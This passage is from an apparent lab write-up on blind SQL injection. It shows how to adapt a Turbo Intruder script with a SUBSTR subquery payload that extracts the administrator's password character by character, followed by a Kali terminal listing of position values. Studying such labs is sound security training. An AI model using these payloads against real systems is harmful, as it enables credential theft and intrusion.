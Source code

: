 Replace the line

`SUBSTR((SELECT password from users WHERE username=’administrator’),1,1)<’a’`

with

`SUBSTR((SELECT password from users WHERE username=’administrator’),%s,1)=’%s’`

The %s is just a placeholder, to instruct Turbo Intruder, to replace with the input that we specify.

We need to specify the input that would be used, in place of this placeholder. Turbo Intruder takes the values that you specify from the file path, that you specify (see below image).

![Path to the input/payload files](/assets/images/blind-sql-injection-conditional-errors/asset-11.png "Path to the input/payload files")

The content of those two files, in my case, is as follows.

```
 (kali㉿kali)-[~/web-academy/1.sql-injection]
 └─$ cat one 
 1
 2
 3
 4
 5
 6
 7
 8
 9
 10
 11
 12
 13
 14
 15
 16
 17
 18
 19
 20


 (kali㉿kali)-[~/web-academy/1.sql-injection]
```
